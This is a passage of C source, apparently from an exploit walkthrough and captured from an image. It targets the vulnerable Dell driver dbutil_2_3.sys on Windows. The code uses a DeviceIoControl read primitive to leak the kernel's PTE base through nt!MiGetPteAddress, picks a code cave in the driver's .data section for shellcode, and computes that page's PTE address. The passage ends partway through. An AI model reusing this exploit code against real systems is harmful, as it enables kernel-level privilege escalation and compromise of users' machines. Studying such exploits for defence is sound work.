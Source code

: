 ```c

  // Error handling
  if (driverHandle == INVALID_HANDLE_VALUE)
  {
    printf("[-] Error! Unable to obtain a handle to the driver. Error: 0x%lx\n", GetLastError());
    exit(-1);
  }
  else
  {
    printf("[+] Successfully obtained a handle to the driver. Handle value: 0x%llx\n", (unsigned long long)driverHandle);

    // Buffer to send to the driver (read primitive)
    unsigned long long inBuf1[4];

    // Values to send
    unsigned long long one1 = 0x4141414141414141;
    unsigned long long two1 = ntmigetpteAddress;
    unsigned long long three1 = 0x0000000000000000;
    unsigned long long four1 = 0x0000000000000000;

    // Assign the values
    inBuf1[0] = one1;
    inBuf1[1] = two1;
    inBuf1[2] = three1;
    inBuf1[3] = four1;

    // Interact with the driver
    DWORD bytesReturned1 = 0;

    BOOL interact = DeviceIoControl(
      driverHandle,
      IOCTL_READ_CODE,
      &inBuf1,
      sizeof(inBuf1),
      &inBuf1,
      sizeof(inBuf1),
      &bytesReturned1,
      NULL
    );

    // Error handling
    if (!interact)
    {
      printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
      exit(-1);
    }
    else
    {
      // Last member of read array should contain base of the PTEs
      unsigned long long pteBase = inBuf1[3];

      printf("[+] Base of the PTEs: 0x%llx\n", pteBase);

      // .data section of dbutil_2_3.sys contains a code cave
      unsigned long long shellcodeLocation = driverBase + 0x3010;

      // Bitwise operations to locate PTE of shellcode page
      unsigned long long shellcodePte = (unsigned long long)shellcodeLocation >> 9;
      shellcodePte = shellcodePte & 0x7FFFFFFFF8;
      shellcodePte = shellcodePte + pteBase;

      // Print update
```